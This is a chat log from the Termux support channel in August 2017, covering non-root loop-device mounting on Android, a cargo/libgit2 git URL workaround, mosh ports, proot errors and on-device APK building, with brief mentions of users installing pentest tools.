2017-08-01 16:05:58	BrainDamage	it won't mount

2017-08-01 16:06:05	BrainDamage	mount is a wrapper for kernel functions

2017-08-01 16:06:20	sdrausty	/system/bin/make_ext4fs -l 10M file

2017-08-01 16:06:23	BrainDamage	mount is a kernel operation,and the kernel will deny you

2017-08-01 16:06:59	sdrausty	What is the error once it finds fstab?

2017-08-01 16:10:22	sdrausty	Evolutoin: https://github.com/termux/termux-packages/issues/969

2017-08-01 16:10:34	BrainDamage	just try it in linux and you'll know "mount: only root can do that"

2017-08-01 16:22:27	gitter	(AshleyNykiel) Is there a way to find out the Termux version number from the command line, would also like to be able to query the version numbers for the API and Styling addons as well, if there is no way to do so currently perhaps this could be added to the API utilities

2017-08-01 16:31:54	rods-tab3	termux-info   gives version

2017-08-01 16:54:16	frumpylava	rods-tab3: termux-info is broken. There isn't a way to do it.

2017-08-01 16:56:05	rods-tab3	i didn't say it gave the correct version number; just a number  --  f-droid gives the correct number

2017-08-01 16:56:05	sdrausty	BrainDamage: https://unix.stackexchange.com/questions/96625/allow-non-superusers-to-mount-any-filesystem

2017-08-01 16:58:10	BrainDamage	sdrausty: that implies you already have root, to configure your machineto let non root to

2017-08-01 17:02:02	sdrausty	@AshleyNykiel `aapt dump badging /data/app/com.termux-2/base.apk|grep versionName`

2017-08-01 17:02:59	sdrausty	Will give you the correct version number, but it is a cludge. https://github.com/termux/termux-packages/issues/1045

2017-08-01 17:04:31	BrainDamage	sdrausty: simply put, if you could do what you want, then you should immediately report to google and tell it to get fixed

2017-08-01 17:04:39	BrainDamage	because it'd be a huge security risk

2017-08-01 17:09:27	sdrausty	to mount filesystems in an apps userspace, how is this a security risk? BrainDamage:

2017-08-01 17:10:57	sdrausty	Linux Deploy mounts a filesystem in its' userspace, so do other Linux Google Playstore apps.

2017-08-01 17:11:01	BrainDamage	not app userspace, but fs in general

2017-08-01 17:11:04	BrainDamage	the fs is the same fo every app

2017-08-01 17:11:20	BrainDamage	linux deploy uses root

2017-08-01 17:11:31	BrainDamage	because the moment you can use mount you can overwrite the filesystem

2017-08-01 17:11:36	BrainDamage	including system paths

2017-08-01 17:12:13	sdrausty	(create file > format filesystem in file > mount filesystem in file via loop device)

2017-08-01 17:12:14	BrainDamage	they could add a crapload of code to ensure you don't touch vital things and can only mount things to safe paths

2017-08-01 17:12:14	BrainDamage	orrr, theycould take th easy way out and block everything

2017-08-01 17:12:29	BrainDamage	again, linux deploy uses root

2017-08-01 17:14:12	sdrausty	You do not need root or rooting to run Linux Deploy.

2017-08-01 17:14:44	BrainDamage	the nonroot optionuses proot, not mount

2017-08-01 17:14:50	sdrausty	Just download from Google Play and enjoy, like Termux.

2017-08-01 17:35:04	sdrausty	BrainDamage: chroot-container is what Linux Deploy uses

2017-08-01 18:00:00	sdrausty	https://www.google.com/search?q=mount+non+root+user+site%3Atldp.org

2017-08-01 19:07:23	live_the_dream	fornwall: @fornwall you looked into cmake on arm yet?

2017-08-01 20:13:39	sdrausty	$ vi /etc/fstab

2017-08-01 20:13:39	sdrausty	$ /system/bin/toybox mount -o loop -t ext4 file mountDir

2017-08-01 20:13:39	sdrausty	mount: 'mountDir' not in fstab

2017-08-01 20:13:39	sdrausty	$ grep mountDir /etc/fstab

2017-08-01 20:13:39	sdrausty	/home/file /home/mountDir ext4 loop,nosuid 0 0

2017-08-01 20:14:05	sdrausty	using termux-chroot

2017-08-01 20:33:02	gitter	(mklein994) @vishalbiswas I can't remember if you answered already; it's been a while… I'm still getting that error with `cargo search`. Have you made any progress by chance?

2017-08-01 20:33:58	gitter	(mklein994) https://gist.github.com/mklein994/b793b94ea879f9f6bbafd18613da522f

2017-08-01 20:49:20	live_the_dream	mklein994 i made a workaround

2017-08-01 20:50:09	live_the_dream	@mklein994

2017-08-01 20:50:15	gitter	(mklein994) What was it?

2017-08-01 20:51:05	live_the_dream	in ~/.gitconfig

2017-08-01 20:51:05	live_the_dream	put [url "git://github.com/rust-lang/crates.io-index"]

2017-08-01 20:51:05	live_the_dream	        insteadOf = https://github.com/rust-lang/crates.io-index

2017-08-01 20:51:10	live_the_dream	no put obviously

2017-08-01 20:53:00	gitter	(mklein994) Right. So basically redirect `https://` to use `git://` hopefully something down the line will fix this… Thanks!

2017-08-01 20:53:06	live_the_dream	its really annoying that when you compile libgit2 in debug mode it works

2017-08-01 20:53:19	live_the_dream	yeah

2017-08-01 20:53:21	gitter	(mklein994) Wait… what?

2017-08-01 20:53:27	live_the_dream	yes

2017-08-01 20:53:28	gitter	(mklein994) O.o

2017-08-01 20:54:08	live_the_dream	it works if you compiled termux libgit2 in debug mode

2017-08-01 21:01:15	live_the_dream	well ndk guys did label libc++ as unstable...

2017-08-01 21:03:09	gitter	(mklein994) I'm a bit green at this stuff—what does libgit2 depend on now in its place?

2017-08-01 21:04:27	live_the_dream	what stuff depends on libgit2? nothing afaik

2017-08-01 21:05:21	gitter	(mklein994) I mean, what does `libc++` have to do with it?

2017-08-01 21:08:21	live_the_dream	it uses c++ headers ... cargo was working find before the switch to libc++

2017-08-01 21:08:21	live_the_dream	fine

2017-08-01 21:09:09	gitter	(mklein994) Growing pains. *Hmph*

2017-08-01 21:46:50	sdrausty	If Releases · meefik/linuxdeploy · GitHub can mount a filesystem from a file, Termux can too https://github.com/meefik/linuxdeploy

2017-08-01 21:48:30	sdrausty	Does Anyone Want to Have More Native Space on Device?

2017-08-01 21:48:48	sdrausty	https://github.com/termux/termux-packages/issues/1176

2017-08-01 21:50:06	sdrausty	chroot-container?

2017-08-01 21:53:51	sdrausty	Debian noroot uses proot from https://github.com/pelya/debian-noroot

2017-08-01 21:54:06	sdrausty	& Google Play

2017-08-01 21:54:18	sdrausty	proot?

2017-08-01 22:07:07	sdrausty	to mount a filesystem after downloading it fron sonewhere in the Internet.

2017-08-01 22:09:42	sdrausty	I have got three (3) mounts in my Android. How about you?

2017-08-01 22:09:48	sdrausty	/storage/3861-6531/Android/data/com.termux/files/usr/share/bash-completion/completions/mount

2017-08-01 22:09:48	sdrausty	/system/bin/mount

2017-08-01 22:09:48	sdrausty	/sys/fs/selinux/class/filesystem/perms/mount

2017-08-01 22:10:22	sdrausty	and there are two more

2017-08-01 22:10:41	sdrausty	one in toolbox, and one more in toybox

2017-08-01 22:11:04	sdrausty	/system/bin/toybox

2017-08-01 22:12:08	sdrausty	$ /system/bin/toolbox mount

2017-08-01 22:13:11	sdrausty	$ /system/bin/toybox mount

2017-08-01 22:13:55	sdrausty	That is a total of five mount commands, and there may be more.

2017-08-01 22:13:59	sdrausty	5

2017-08-01 22:31:08	live_the_dream	is linuxdeploy using root to do that?

2017-08-01 22:32:45	live_the_dream	anyway i might work up a script to use external card for all things not executable

2017-08-01 22:32:50	live_the_dream	so it will be symlinks a gogo

2017-08-01 22:38:33	sdrausty	Linux Deploy uses chroot-container live_the_dream:

2017-08-01 22:40:07	sdrausty	Even though this is a fairly simple issue in Linux (create file > format filesystem in file > mount filesystem in file via loop device), it is impossible in Termux at present.

2017-08-01 22:40:32	sdrausty	https://github.com/termux/termux-packages/issues/1176

2017-08-01 22:41:25	sdrausty	Who here knows APK java programming @#termux?

2017-08-01 22:42:11	sdrausty	If Releases · meefik/linuxdeploy · GitHub can mount a filesystem from a file, Termux can too https://github.com/meefik/linuxdeploy

2017-08-01 22:43:20	sdrausty	@vishalbiswas Which lines of the linuxdeploy code do we want?

2017-08-01 22:43:32	sdrausty	@form

2017-08-01 22:43:53	sdrausty	wher rum

2017-08-01 22:43:56	sdrausty	?

2017-08-01 22:46:59	live_the_dream	i think he can only mount file with root

2017-08-01 22:48:30	gitter	(vishalbiswas) sdrausty: chroot uses root

2017-08-01 22:48:47	gitter	(vishalbiswas) proot was developed because of it

2017-08-01 22:49:23	gitter	(vishalbiswas) And chroot doesn't mount anything

2017-08-01 22:49:40	gitter	(vishalbiswas) It just changes the / path

2017-08-01 22:51:02	zack_	hey, is anyone able to connect to a termux chroot via mosh? I'm trying on a chromebook but it rejects my public key

2017-08-01 22:51:15	zack_	it shouldn't, I can see it in the authorized_keys fil

2017-08-01 22:51:16	zack_	e

2017-08-01 22:52:05	zack_	alternatively, does anyone else see the secure shell chrome app freeze after a restart when connected to a termux chroot via ssh?

2017-08-01 23:00:12	live_the_dream	not many people here use chrome os unfortunately

2017-08-01 23:00:44	zack_	fair enough

2017-08-01 23:03:31	cottongin	i do

2017-08-01 23:03:33	live_the_dream	i expect a few more to turn up after kenn white chromos blog

2017-08-01 23:04:03	cottongin	i successfully connected to a termux chroot via ssh last night

2017-08-01 23:04:06	cottongin	haven't tried with mosh

2017-08-01 23:04:10	cottongin	what error does it give you

2017-08-01 23:17:24	zack_	it asks for a password for my ssh key

2017-08-01 23:17:33	zack_	my key doesn't have a password, of course

2017-08-01 23:17:41	zack_	I can connect through ssh as well, just not mosh

2017-08-01 23:17:51	cottongin	hm

2017-08-01 23:18:03	cottongin	you're using the mosh chrome extension?

2017-08-01 23:18:09	zack_	yes exactly

2017-08-01 23:18:18	cottongin	let me see if it works for me hang on

2017-08-01 23:18:25	zack_	thanks

2017-08-01 23:18:40	live_the_dream	udp not supported via proot?

2017-08-01 23:19:21	zack_	aha, that could be it

2017-08-01 23:19:32	live_the_dream	or the port range mosh uses?

2017-08-01 23:19:41	cottongin	oh yeah that's probably it

2017-08-01 23:19:53	zack_	port is probably fine, same as ssh I think

2017-08-01 23:19:58	cottongin	yes and no

2017-08-01 23:20:03	cottongin	mosh uses it's own port range

2017-08-01 23:20:13	cottongin	65000 or something

2017-08-01 23:20:15	cottongin	i forget

2017-08-01 23:20:39	zack_	Mosh will use the first available UDP port, starting at 60001 and stopping at 60999. If you are only going to have a small handful of concurrent sessions on a server, then you can forward a smaller range of ports (e.g., 60000 to 60010).

2017-08-01 23:20:41	zack_	from the site

2017-08-01 23:20:44	zack_	I didn't realise, thanks

2017-08-01 23:20:46	cottongin	yeah

2017-08-01 23:42:01	sdrausty	https://github.com/termux/termux-app/issues/376

2017-08-01 23:42:21	sdrausty	Feature Request: `mount loopback device`

2017-08-02 00:12:32	sdrausty	Maybe there is another way? There are other apps that do not require superuser. What are they?

2017-08-02 00:15:13	sdrausty	Where is everyone?

2017-08-02 00:16:38	sdrausty	Space (Android space) on device is important. Isn't it? The more the merrier:) Right?

2017-08-02 00:31:19	rods-tab3	there are android phones with 8 core cpu, 8 GB ram,  256GB internal storage  -- should solve the issue

2017-08-02 00:37:51	sdrausty	rods-tab³: on external SD

2017-08-02 00:38:38	sdrausty	create file > format filesystem in file > mount filesystem in file via loop device

2017-08-02 00:39:19	sdrausty	128GB $40USD microSD

2017-08-02 00:39:44	sdrausty	http://www.frys.com/search?cat=-69556&nearbyStoreName=false&pType=pDisplay&query_search=Micro%20sd&fq=100520%20128

2017-08-02 00:43:49	sdrausty	rids-tab3: What is the price of the phone you mentioned?

2017-08-02 00:44:45	sdrausty	https://github.com/guardianproject/lildebi

2017-08-02 00:45:02	sdrausty	mounts container with nonroot?

2017-08-02 00:47:50	sdrausty	https://github.com/termux/termux-app/issues/376

2017-08-02 00:48:06	sdrausty	Feature Request: `mount loopback device` #376

2017-08-02 00:49:38	sdrausty	4TB or more on OTG

2017-08-02 01:07:06	sdrausty	rods-tab³: "Feature Request: `mount loopback device` #376

2017-08-02 01:09:19	live_the_dream	can you not spam that please sdrausty?

2017-08-02 01:12:57	sdrausty	Gnuroot wheezy? Has anyone tried it?

2017-08-02 01:13:38	sdrausty	live_the_dream: I thought I was alone...

2017-08-02 01:13:38	gitter	(vishalbiswas) that project hasn't seen an update in more than a year

2017-08-02 01:19:33	gitter	(Hax4us) Yes..I have gnuroot wheezy

2017-08-02 01:19:57	sdrausty	Where is the code for root? Anyone? https://github.com/termux/termux-app/issues/376 I'll work on keeping my messages to one line. Thank you :live_the_dream

2017-08-02 01:20:28	sdrausty	Feature Request: `mount loopback device` #376

2017-08-02 01:21:08	gitter	(vishalbiswas) you can add that to your irc nick

2017-08-02 01:21:27	sdrausty	@Hax4us Does gnuroot wheezy mount a container i

2017-08-02 01:21:28	gitter	(Hax4us) @vishalbiswas I have one question

2017-08-02 01:21:37	gitter	(vishalbiswas) it uses proot

2017-08-02 01:21:42	sdrausty	as user in userspace?

2017-08-02 01:22:17	gitter	(vishalbiswas) proot doesn't mount anything, it modifies syscalls on the fly

2017-08-02 01:22:41	gitter	(Hax4us) @vishalbiswas I m using gnuroot..and..it provides..fakeroot..so..is it possible in termux..

2017-08-02 01:22:57	gitter	(vishalbiswas) fakeroot != root

2017-08-02 01:23:05	sdrausty	Can anyone answer my questions eith better snswers than, "It cannot be done."?

2017-08-02 01:23:07	gitter	(vishalbiswas) read up fakeroot docs

2017-08-02 01:23:16	sdrausty	ok

2017-08-02 01:23:31	gitter	(vishalbiswas) BrainDamage explained why it cannot be done

2017-08-02 01:23:40	sdrausty	howdu like submz in build

2017-08-02 01:23:47	sdrausty	APKs

2017-08-02 01:23:47	gitter	(vishalbiswas) android is designed to restrict that kind of behaviour

2017-08-02 01:24:17	sdrausty	@vishalbiswas read up on usrdpace please

2017-08-02 01:24:34	sdrausty	usrdspace *userspace

2017-08-02 01:24:38	gitter	(vishalbiswas) There is one thing that most android powerusers fail to take notice of

2017-08-02 01:24:50	gitter	(vishalbiswas) android uses a modified linux kernel

2017-08-02 01:25:01	gitter	(vishalbiswas) not the same one in other distros

2017-08-02 01:25:02	sdrausty	I am not an Android power user.

2017-08-02 01:25:13	gitter	(vishalbiswas) they have modified it heavily

2017-08-02 01:25:13	sdrausty	I am a computer power user.

2017-08-02 01:25:35	sdrausty	Termux enables ma Android to be a computer.

2017-08-02 01:25:40	sdrausty	ma *my

2017-08-02 01:26:12	gitter	(Hax4us) @vishalbiswas I have Ubuntu proot..in termux..I m just want to ask..that...proot Ubuntu is like a real Ubuntu or not..I mean..can I do all things in Ubuntu proot like normal..

2017-08-02 01:26:24	sdrausty	subz *submodules

2017-08-02 01:28:22	gitter	(vishalbiswas) @Hax4us I'm not a regular user of proot. frumpylava is better qualified for this question

2017-08-02 01:28:59	gitter	(Hax4us) Bcz termux has no u

2017-08-02 01:29:16	sdrausty	Your suggestion @vishalbiswas Thank you very muvh for informing me of the concept of git submodules.

2017-08-02 01:29:47	gitter	(Hax4us) Kk

2017-08-02 01:30:35	gitter	(Hax4us) @frumpylava...can I do all things in Ubuntu proot like normal Ubuntu in PC

2017-08-02 01:30:37	sdrausty	muvh *much I'm not spamming. Am I? I am correcting a typo.

2017-08-02 01:30:45	gitter	(vishalbiswas) you change the repo layout

2017-08-02 01:32:31	frumpylava	@Hax4us: No. it barely works and even if it does you still can't do a lot of things.

2017-08-02 01:32:55	sdrausty	How yo link libraries into https://github.com/sdrausty/buildAPKs/blob/master/scripts/build/buildOne.sh @ https://sdrausty.github.io/buildAPKs/ If we can link libraries/articafts then we can build Termux on device. Vorrect?

2017-08-02 01:34:15	sdrausty	yo *do && articafts *artifacts && Vorrect *Correct

2017-08-02 01:34:51	gitter	(vishalbiswas) i may be wrong, but it may be just as simple as adding it to classpath

2017-08-02 01:35:25	sdrausty	frumpylava: Is it possible to grant permission for Termux to use loop devices? #375 https://github.com/termux/termux-app/issues/375

2017-08-02 01:36:59	frumpylava	sdrausty: I don't know.

2017-08-02 01:38:23	sdrausty	frumpylava: How is the English subtitling comming along? The repost of your presentation at Google+ Linux https://plus.google.com/109614420080028230010/posts/jdA6EJVamni was deleted, it seemx

2017-08-02 01:40:46	frumpylava	sdrausty: Haven't gotten around to it yet.

2017-08-02 01:41:04	sdrausty	@fornwall might know how to link libraries and artifacts into buildOne.sh This might enable building Termux on device (a smartphone 

2017-08-02 01:41:12	sdrausty	ok

2017-08-02 01:41:33	gitter	(vishalbiswas) you know, you can ask in that termux-packages issue

2017-08-02 01:42:38	sdrausty	I woild like to know what yoy said. It sounded nice, and you heard applause. Brawo.

2017-08-02 01:43:46	sdrausty	@vishalbiswas This does not seem to be a package issue after all https://github.com/termux/termux-app/issues/376

2017-08-02 01:44:36	gitter	(vishalbiswas) i didn't mean a new issue

2017-08-02 01:44:46	gitter	(vishalbiswas) there are old issues about building apps on termux

2017-08-02 01:45:40	sdrausty	https://github.com/termux/termux-app/issues/375 && https://github.com/termux/termux-packages/issues/1176 can be closed as far as I am concerned, @present.

2017-08-02 01:47:08	sdrausty	@vishalbiswas That is how https://sdrausty.github.io/buildAPKs was made. I am planning to add a contibutirs page. You are on this list.

2017-08-02 01:47:34	sdrausty	too

2017-08-02 01:58:37	mr1404	is anyone there ?

2017-08-02 01:59:05	mr1404	Anybody tell me beyond sqlmap what other tools are available?

2017-08-02 02:02:46	sdrausty	$ apt list |grep sql

2017-08-02 02:46:33	sdrausty	I really adoar (like) mrwhite hbu mr1404? https://github.com/sdrausty/buildAPKsClassifiedApps/tree/master/flashlights/mrwhite What do u think of mrwhite? Moreover, it builds on device in Termux! Please submit your opinions 'bout mrwhite compiling on device (yes, you smartphone) here. Or at https://github.com/sdrausty/buildAPKs/wiki

2017-08-02 02:49:06	sdrausty	mr1404: What do you thhink of mrwhite?

2017-08-02 02:52:07	mr1404_	~~~~

2017-08-02 02:52:55	mr1404_	How to install

2017-08-02 02:52:57	sdrausty	@vashalbiswas Have you tried mrwhite? https://github.com/sdrausty/buildAPKsApps/tree/master/flashlights/mrwhite Please let me in on how enjoying the build and use was?

2017-08-02 02:53:49	sdrausty	mr1404: https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsOnDevice enjoy!

2017-08-02 02:53:54	mr1404_	I want to install the tools on linux into the termux

2017-08-02 02:54:49	sdrausty	tools @buildAPKs and more @ https://sdrausty.github.io/pages/more

2017-08-02 02:55:50	mr1404_	thank you

2017-08-02 02:56:06	sdrausty	ur welcome :)

2017-08-02 02:57:13	mr1404_	I installed apache2 but when I type http: // locahost / browser it does not show up

2017-08-02 03:00:16	sdrausty	mr1404_: Please tell us about how you like mrwhite https://github.com/sdrausty/buildAPKsApps/tree/master/flashlights/mrwhite @fornwall How do you like the build, install and run of mrwhite? Feedback requested from...

2017-08-02 03:00:27	sdrausty	EVERYONE

2017-08-02 03:01:14	mr1404_	Sorry I'm not good at my english from vietnam

2017-08-02 03:03:41	mr1404_	Any episodes can help me personally

2017-08-02 03:06:56	sdrausty	mr1504_: in Termux please try:

2017-08-02 03:07:01	sdrausty	cd && pkg install aapt apksigner dx ecj git

2017-08-02 03:07:01	sdrausty	git clone https://github.com/sdrausty/buildAPKs

2017-08-02 03:07:01	sdrausty	./buildAPKs/buildMyFirstAPK.sh

2017-08-02 03:09:19	sdrausty	Everyone else on channel is invited to try the command lines ^^above^^ Feedback requested @ https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsOnDevice Now how can we get Termux on the Linux #channels?

2017-08-02 03:09:46	sdrausty	too

2017-08-02 03:11:50	sdrausty	deleted https://plus.google.com/109614420080028230010/posts/jdA6EJVamni zero info 'bout Termux @linux google+ deleted bummer

2017-08-02 03:14:47	gitter	(sdrausty) articafts *artifacts

2017-08-02 03:55:13	MR14041	alo

2017-08-02 03:58:15	sdrausty	lolo

2017-08-02 04:22:33	Nabil	Hi

2017-08-02 04:25:52	sdrausty	Nabil: Hello

2017-08-02 04:32:08	usertermux	hello

2017-08-02 04:36:44	live_the_dream	hello

2017-08-02 04:38:34	cottongin	hello

2017-08-02 04:40:09	frumpylava	hello

2017-08-02 04:41:05	gitter	(Grimler91) hello

2017-08-02 04:44:14	sdrausty	hi

2017-08-02 04:44:23	sdrausty	bonjour

2017-08-02 04:44:35	sdrausty	hola

2017-08-02 04:45:33	gitter	(Grimler91) hej

2017-08-02 04:48:57	sdrausty	yes @Grimler91

2017-08-02 04:52:58	sdrausty	I got in a little bit of trouble speaking 'bout Termux @ #debian

2017-08-02 04:54:24	sdrausty	We are a debian derivitive. Termux and Ubuntu both are.

2017-08-02 04:55:09	sdrausty	Derivitives of... debian  https://www.debian.org

2017-08-02 05:20:35	sdrausty	I want more native space on device. https://github.com/termux/termux-app/issues/376 How 'bout U?

2017-08-02 05:50:57	live_the_dream	sdrausty: plz stop...

2017-08-02 05:53:27	BrainDamage	everyone wants more space, it just can't be done like that

2017-08-02 05:58:51	sdrausty	yes it can

2017-08-02 05:59:04	sdrausty	it can

2017-08-02 05:59:08	sdrausty	we can

2017-08-02 06:05:11	live_the_dream	no ...

2017-08-02 06:05:18	live_the_dream	people have been looking into that for years

2017-08-02 06:05:29	live_the_dream	foldermount

2017-08-02 06:06:14	live_the_dream	and many others ... iv not seen anything on that front that doesn't require root

2017-08-02 06:06:22	live_the_dream	and no proot...

2017-08-02 06:07:13	live_the_dream	linux deploy needs chroot and can;6 mount images without root

2017-08-02 06:07:28	live_the_dream	its an old android issue...

2017-08-02 06:08:56	BrainDamage	he's confused because linux deploy also has a proot mode where it just uses a folder

2017-08-02 06:09:17	BrainDamage	and he assumes because the proot mode where it uses the folder is the same as the mount loop mode ...

2017-08-02 06:09:57	BrainDamage	plus he googles "mountloop" and starts copypasting he first result without even clicking the link, given it's unrelated stuff

2017-08-02 07:09:54	gitter	(themastersunil) How can i move folder into another folder in termux..... But my folder is not empty

2017-08-02 07:10:13	gitter	(themastersunil) which commend i use???

2017-08-02 07:15:21	live_the_dream	mv

2017-08-02 07:15:21	live_the_dream	?

2017-08-02 07:16:58	gitter	(Hax4us) Yes MV

2017-08-02 07:17:07	gitter	(Hax4us) mv*

2017-08-02 07:18:37	gitter	(Hax4us) @vishalbiswas  @sdrausty  @frumpylava plz solve this...error....while extracting ..a file..using ...tar..tar : bin/rbash: Cannot change mode to rwx------: No such file or directory

2017-08-02 07:18:37	gitter	(Hax4us) tar: bin/ypdomainname: Cannot change mode to rwx------: No such file or directory

2017-08-02 07:18:37	gitter	(Hax4us) Bus error

2017-08-02 07:20:24	live_the_dream	ls

2017-08-02 07:20:24	live_the_dream	hmm,

2017-08-02 07:21:06	gitter	(Hax4us) Its for me ? L's

2017-08-02 07:21:10	gitter	(Hax4us) ls

2017-08-02 07:22:27	live_the_dream	nah its me doing typos

2017-08-02 07:22:27	live_the_dream	reminds me of this https://github.com/termux/termux-packages/issues/1054

2017-08-02 07:22:55	gitter	(Hax4us) Point to be noted..that..after changing the permission by chmod tar gives error only bus error

2017-08-02 07:23:41	live_the_dream	now that might help you

2017-08-02 07:24:00	gitter	(Hax4us) Kk..let me try

2017-08-02 07:29:33	gitter	(Hax4us) Now error is

2017-08-02 07:29:33	gitter	(Hax4us) proot info: vpid 1: terminated with signal 7

2017-08-02 07:30:16	gitter	(Hax4us) Anybody...?

2017-08-02 07:50:56	live_the_dream	which file is it ..

2017-08-02 07:51:41	gitter	(Hax4us) Ubuntu.tar.gz

2017-08-02 08:27:12	mr1404	Hello

2017-08-02 08:29:40	mr1404	You something

2017-08-02 08:31:37	gitter	(Hax4us) I solved :smile:

2017-08-02 08:33:37	mr1404	Someone please help me when i try to run the buildMyFirstAPK.sh command

2017-08-02 08:33:54	mr1404	https://usercontent.irccloud-cdn.com/file/z4dmSRuv/Screenshot_20170802-193303.png

2017-08-02 08:34:03	gitter	(Hax4us) But i will open a issue...bcz in my mobile..it requires root

2017-08-02 08:36:23	gitter	(Hax4us) @mr1404  ...i m using aide ...it is

2017-08-02 08:36:31	gitter	(Hax4us) Best

2017-08-02 08:37:12	mr1404	??

2017-08-02 08:46:19	mr1404	How to use apache2? Open a website on the locahost

2017-08-02 10:25:43	gitter	(Ashish882) Hi

2017-08-02 10:25:46	gitter	(Ashish882) Anyone

2017-08-02 10:25:58	gitter	(Ashish882) How to uninstall setoolkit

2017-08-02 10:39:28	gitter	(mklein994) @Hax4us if it's any consolation, I have the same error. ARM device, Android 7.1.2.

2017-08-02 10:39:52	gitter	(mklein994) For `termux-chroot` that is.

2017-08-02 10:43:12	gitter	(mklein994) Just thought I'd share it here: `:py3 print('hi')` in Neovim is works, (part of issue #598), thanks @christianrondeau for the heads up! This means that plugins requiring python3 will work, such as deoplete.

2017-08-02 10:45:20	gitter	(Ashish882) If you know to uninstall setoolkit then tell me

2017-08-02 10:49:58	gitter	(mklein994) Nope, sorry. I don't even know what that is. It sounds like something found in every script kiddy's toolbox :wink:. The GitHub page describes it as "The Social Engineer's Toolkit" https://github.com/trustedsec/social-engineer-toolkit/blob/master/README.md

2017-08-02 10:52:27	gitter	(mklein994) Wait, you said *in*install?

2017-08-02 10:52:39	gitter	(Ashish882) Lol . kiddy toolbox . if that is kid than you are the best developer of  world you can make any coding. Lol If you think every tool kidy that you are mad

2017-08-02 10:53:31	gitter	(mklein994) How'd you get it in the first place?

2017-08-02 10:53:58	gitter	(Ashish882) That is not your problem

2017-08-02 10:54:12	gitter	(Ashish882) I only want a command to uninstall it

2017-08-02 10:54:22	gitter	(Ashish882) Someone is asking me so

2017-08-02 10:58:09	gitter	(vishalbiswas) To uninstall something, you must know how you installed it, to know which files need to be removed

2017-08-02 10:58:55	gitter	(Ashish882) Git clone it

2017-08-02 10:59:09	gitter	(Ashish882) Python setup.py

2017-08-02 10:59:22	gitter	(Ashish882) Now I want to uninstall setoolkit

2017-08-02 10:59:50	gitter	(vishalbiswas) Remove the installed gems in requirements file. Then delete the folder

2017-08-02 11:00:31	gitter	(vishalbiswas) And next time, don't be so offensive

2017-08-02 11:00:39	gitter	(Ashish882) OK...

2017-08-02 11:00:56	gitter	(Ashish882) But he is saying setoolkit kidy tool

2017-08-02 11:01:00	gitter	(vishalbiswas) We are all here to help each other

2017-08-02 11:01:07	gitter	(vishalbiswas) Read it again

2017-08-02 11:01:08	gitter	(Ashish882) Yes

2017-08-02 11:01:22	gitter	(vishalbiswas) He said it sounds like

2017-08-02 11:01:39	gitter	(Ashish882) Ohh yes

2017-08-02 11:01:41	gitter	(Ashish882) Story

2017-08-02 11:01:44	gitter	(Ashish882) Sort

2017-08-02 11:01:45	gitter	(vishalbiswas) which implies he hasn't heard about it

2017-08-02 11:02:05	gitter	(Ashish882) I think he making fun of that tool

2017-08-02 11:02:14	gitter	(Ashish882) Then I became angrey

2017-08-02 11:02:31	gitter	(vishalbiswas) Everybody can have an opinion about a name, nothing to get angry about

2017-08-02 11:03:21	gitter	(Ashish882) Yes. But making that tool is for use who we are to make fun

2017-08-02 11:03:31	gitter	(Ashish882) But sorry bro

2017-08-02 11:03:44	gitter	(Ashish882) @mklein994

2017-08-02 11:04:03	gitter	(Ashish882) I don't read it

2017-08-02 12:18:19	gitter	(themastersunil)  how can i install tput package in termux?

2017-08-02 12:23:32	gitter	(themastersunil) ??

2017-08-02 12:24:10	gitter	(vishalbiswas) what's that?

2017-08-02 12:24:59	gitter	(themastersunil) [ ✔ ] Done ! ....Proceeding with setup

2017-08-02 12:24:59	gitter	(themastersunil)

2017-08-02 12:24:59	gitter	(themastersunil) TERM environment variable not set.

2017-08-02 12:24:59	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=5981fcda45fc670746ebc5dd]

2017-08-02 12:25:10	gitter	(themastersunil) FatRatProblem

2017-08-02 12:26:03	gitter	(themastersunil) TheFatRat not installing after

2017-08-02 12:26:06	gitter	(themastersunil) -----+

2017-08-02 12:26:06	gitter	(themastersunil)  | [ 1 ] Setup Metasploit Framework Path Manually          |

2017-08-02 12:26:06	gitter	(themastersunil)  | [ 2 ] Install Metasploit Framework from Kali Repository |

2017-08-02 12:26:06	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=5981fd1d2723db8d5e6b5f76]

2017-08-02 12:28:44	gitter	(vishalbiswas) tput should be ins ncurses-utils package

2017-08-02 12:30:07	gitter	(themastersunil) Okk

2017-08-02 12:30:19	gitter	(themastersunil) First I'll install mrtasploit

2017-08-02 13:20:50	sdrausty	@vishabiswas gnuroot wheezy creates and mounts a filesystem nonroot in Android. Cannot find the source, though.

2017-08-02 13:22:26	sdrausty	https://github.com/termux/termux-app/issues/376

2017-08-02 13:22:59	sdrausty	Feature Request: `mount loopback device`

2017-08-02 13:37:11	gitter	(vishalbiswas) live_the_dream: what was the fix for `__mulodi4`?

2017-08-02 13:46:48	gitter	(vishalbiswas) when cross compiling

2017-08-02 13:48:36	gitter	(vishalbiswas) can't use gcc, mongodb refuses to use anything below 5.3.0

2017-08-02 13:49:54	gitter	(vishalbiswas) should I add compiler_rt package then?

2017-08-02 13:55:25	linkneverdie	helo

2017-08-02 13:56:19	linkneverdie	T_T

2017-08-02 13:56:49	mr1404	what ?

2017-08-02 13:56:58	linkneverdie	ai biet tiengviet khong

2017-08-02 13:57:37	mr1404	I know Vietnamese

2017-08-02 13:57:41	linkneverdie	:)))

2017-08-02 13:57:49	mr1404	có chuyện gì ?

2017-08-02 13:57:57	linkneverdie	cai nay dung sao

2017-08-02 13:58:15	mr1404	thì bt chứ sao

2017-08-02 13:58:28	linkneverdie	exit pp

2017-08-02 15:21:51	piuz	what is the overall package?

2017-08-02 15:44:47	sdrausty	piuz: 660 packages that are available from https://sdrausty.github.io/pages/more

2017-08-02 15:47:54	sdrausty	Feature request: to be able to ask a bot on this channel, "How many packages are there?" And similar questions, i.e. like jelly at #debian

2017-08-02 15:49:42	sdrausty	or dpkg @ #debian

2017-08-02 16:04:10	sdrausty	source for the above feature request "channel bot like dpkg @ #debian" is @ http://blootbot.sf.net Can someone implement this feature, please?

2017-08-02 16:12:07	live_the_dream	@vishabiswas you can use patchelf to add libcompiler_rt.so to required libs

2017-08-02 16:12:16	live_the_dream	patchelf --add-needed libcompiler_rt.so $bin

2017-08-02 16:13:08	live_the_dream	even the x86 versiin on linux distros  can do it

